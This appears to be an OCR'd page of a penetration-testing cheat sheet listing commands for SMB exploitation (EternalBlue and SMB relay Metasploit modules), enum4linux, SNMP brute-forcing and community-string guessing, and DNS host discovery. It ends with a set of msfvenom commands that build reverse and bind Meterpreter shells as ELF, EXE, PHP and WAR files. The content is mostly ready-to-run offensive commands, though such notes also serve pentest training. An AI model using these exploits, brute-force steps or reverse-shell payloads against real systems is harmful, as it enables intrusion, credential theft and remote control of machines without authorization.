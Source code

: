     - SMB Relay exploit
       - exploit/windows/smb/smb_relay
    - EternalBlue SMB
       - exploit/windows/smb/ms17_010_eternalblue
 - Enum4linux
    - enum4linux -a IP
    - Do all simple enumeration (-U -S -G -P -r -o -n -i).
    - (-U get userlist )/ -S get sharelist
    - -P get password policy/
    - -u user specify username to use (default "")
    - -p pass specify password to use (default "")
    - e.g enum4linux -a -u anyuser IP
    - e.g enum4linux -a -w WORKGROUP IP
 - nbtstat(Win) = nbtscan(linux) 
 - net view (win)=smbclint (linux)
# Enumeration SNMP
 - know the host which is running SNMP
 - Obtain the community name
 - nmap -p 161 IP --script snmp-brute
 - snmpwalk Tools
   - snmpwalk -v 1 -c NameOfComm IP
   - SNMP Obtain Community string
     - like a user id or password that allows access to a device's
     - onesixtyone -c /usr/share/doc/onesixtyone/dict.txt IP
   - Using packetstorm Tools
     - snmpenum, uses a database of OIDs to request specific information via SNMP
     - perl snmpenum.pl [IP which runnig snmp] public windows.txt
     - the result : SYSTEM INFO , Disk , Shre, Users ,tcp port ,running process
# DNS
   - Using packetstorm Tools
      - snmpenum, uses a database of OIDs to request specific information via SNMP
   - Discover Domain Name
      - dig @IP -x IP +nocookie
   - Discover hosts in network
      - cat /usr/share/fierce/hosts.txt
   - using Reverse DNS Lookups
       - create a list of ip using crunch
       - e.g: # crunch 11 11 -t 172.16.5.%% -o iplist.txt
       - create shell secript
   - using Forward DNS Lookups
       - contain a list of file name
       - for name in $(cat /usr/share/fierce/hosts.txt); do host $name.[Domain name] [IP] -W 2;
 # msfvenume payloud
  - Linux Meterpreter Reverse Shell
      - msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f elf > shell.elf
  - Linux Bind Meterpreter Shell
      - msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > bind.elf
  - Windows Meterpreter Reverse TCP Shell
      - msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe
  - PHP Meterpreter Reverse TCP
      - msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php
  - WAR
      - msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war
  - convert Shell to meterpreter session